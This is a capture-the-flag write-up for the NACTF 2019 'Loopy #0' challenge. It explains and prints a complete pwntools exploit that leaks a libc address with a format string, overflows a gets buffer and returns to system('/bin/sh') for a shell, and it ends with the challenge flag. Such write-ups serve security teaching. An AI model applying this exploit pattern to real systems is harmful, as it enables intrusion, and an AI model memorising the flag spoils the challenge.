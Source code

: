 # Loopy #0

## Binary Exploitation - Points: 350

> This program is quite short, but has got `printf` *and* `gets` in it! This *shouldn't* be too hard, right?
>
> 
>
> Connect at `nc shell.2019.nactf.com 31283`
>
> [loopy-0.c](loopy-0.c)
>
> [loopy-0](loopy-0)
>
> [libc.so.6](libc.so.6)
>

The exploit uses a format string to print out the address of `setvbuf` from `libc` to be able to calculate the `libc` base address. It also overflows the buffer to call the function recursively again to be able to send another input.

With the `libc` base address we can now calculate the addresses of `system` and `/bin/sh` and overflow the buffer again to jump to it and spawn a shell.

Exploit script:

```python
from pwn import *

libc = ELF('libc.so.6')
system = libc.symbols['system']
shell = next(libc.search('/bin/sh'))
libc_setvbuf = libc.symbols['printf']

e = ELF('loopy-0')
printf = e.got['printf']

# p = remote('shell.2019.nactf.com', 31283)
p = process('./loopy-0')

payload = p32(printf) + '%4$s' + 'A' * 68 + p32(e.symbols['vuln'])

p.sendline(payload)
p.recvuntil('You typed: ')
p.recv(4)
leak = u32(p.recv(4))
log.info("leak: " + hex(leak))

libc_base = leak - libc_setvbuf

system = libc_base + system
shell = libc_base + shell

log.info("system @ " + hex(system))
log.info("shell @ " + hex(shell))

p.sendline('A'*76+p32(system)+p32(0x0)+p32(shell))
p.interactive()
```

flag: `nactf{jus7_c411_17_4g41n_AnZPLmjm}`